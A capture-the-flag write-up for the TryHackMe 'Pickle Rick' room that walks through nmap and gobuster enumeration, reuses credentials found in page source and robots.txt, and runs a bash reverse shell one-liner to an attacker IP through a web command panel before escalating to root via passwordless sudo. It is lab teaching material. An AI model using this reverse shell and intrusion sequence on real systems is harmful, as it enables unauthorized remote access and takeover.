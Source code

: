 # Writeup for [Pickle Rick](https://tryhackme.com/room/picklerick) from [Try Hack Me](https://tryhackme.com)
> Note: I will only be showcasing how to get **root** on the box, I will not answer any of the questions from the Try Hack Me room.


## Table of Content
1. [Information Gathering and Enumeration](#information-gathering-and-enumeration)
2. [Gaining Access](#gaining-access)
3. [Privilege Escalation](#privilege-escalation)

## Information Gathering and Enumeration
As usual, we are going to start things off with a simple nmap scan.  
```
nmap -sC -sV -oN nmap/initial -v 10.10.2.255
```
>Legend:
>1. -sC -> Use default scripts
>2. -sV -> Enumerate Versions
>3. -oN -> Output normal format.
>4. -v -> Verbose mode.

We can see port 22 and port 80 open, so we should definitely check out that web server first.  

We are prompted with some instructions to find **3** ingridients for Rick's pickle-reverse potion. Looking at the webpage itself we don't see anything that could help us, so we should check the source code of the page to see if there are any hints there.  

![page-source](./img/page-source.png)  

We can see a comment that gives us a potential username `R1ckRul3s`. We should write that to a file so we can potentially brute-force it if needed.

After that we should run a directory fuzzing tool. I'm going to run a tool called `gobuster`.

```
gobuster dir -u http://10.10.2.255/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/raft-small_root -x php,html,txt
```	
>Legend:
>1. dir -> Directory fuzzing mode
>2. -u -> URL
>3. -w -> Wordlist to use
>4. -o -> Output results
>5. -x -> Extensions

It is good practice to run gobuster with some extensions to not only look for directories, but to also search for files commonly found in a web application.

While that's running in the background, we should check for some low hanging fruit. I'm gonna try the file `robots.txt`, because sometimes we can see some juicy info from that file.

We can check for that just by typing `http://[VICTIM IP]/robots.txt`.  

![robots](./img/robots.png)  

Hitting that page, we can only see `Wubbalubbadubdub`. This might potentially be a password so we can try to login to ssh with the username `R1ckRul3s` that we found earlier. But it looks like we can't login to SSH using this user.

Going back to gobuster, we see a **login.php** page.

![gobuster-result](./img/gobuster-result.png)  

## Gaining Access

Looks like we are prompted with a login page and we could try those credentials earlier with **Wubbalubbadubdub** as the password.

![login-php](./img/login-php.png)  

After logging in, we are redirected to a **portal.php** page. Looks like we can execute commands from this webapp.  

![cmd-panel](./img/cmd-panel.png)  

Since we can execute commands remotely, let's get ourselves a reverse shell. I have this bash reverse shell memorized, but there is an online resource for reverse shell one-liners by [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
bash -c 'bash -i >& /dev/tcp/10.4.7.210/9001 0>&1'
```
> Replace 10.4.7.210 and 9001 with your own Try Hack Me VPN IP Address and desired port.

We also need to setup a listener on our attacker machine **first** before executing this bash reverse shell on the web app. You might need to use `nc` instead of `ncat`.
```
ncat -lnvp 9001
```
>Legend:
>1. -l -> Listen
>2. -n -> Don't resolve hostnames via DNS
>3. -v -> Verbose mode
>4. -p -> Specify Port Number


Running that bash reverse shell after we setup our listener, we should get a shell as **www-data**.  

![www-data](./img/www-data.png)  

We should upgrade our shell to a full tty session.
Run this command on the remote host.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

After that hit `Ctrl + Z` on your keyboard to background the netcat process, and type `stty size` to get the rows and columns of your terminal.

Then run `stty raw -echo` on your terminal. After running that command, hit `fg` and press `Enter` twice. ( Note: You won't see `fg` being typed to your terminal ). You should now be back to your remote connection on the box.

After that, set the rows and columns with `stty rows [number of rows] cols [number of columns]` from the `stty size` command.
Finally, type `export TERM=xterm` on the remote victim.

This full session gives us a few things:
1. Sometimes, programs want a full tty session before executing ( like `sudo` is sometimes a bit wonky when you don't have a proper shell, even though this is not always the case. )
2. We have **tab** autocomplete for commands and we can clear the screen.
3. We are able to use terminal applications like vim or nano without breaking the formatting of our terminal.

## Privilege Escalation

After getting our reverse shell, we should try the low hanging fruit. I always start with `sudo -l` to see if my current user can run sudo commands.

Looks like that our user **www-data** can run sudo on everything,anywhere, and **without** a password. We can just run `sudo bash` to get a root shell.

![root](./img/root.png)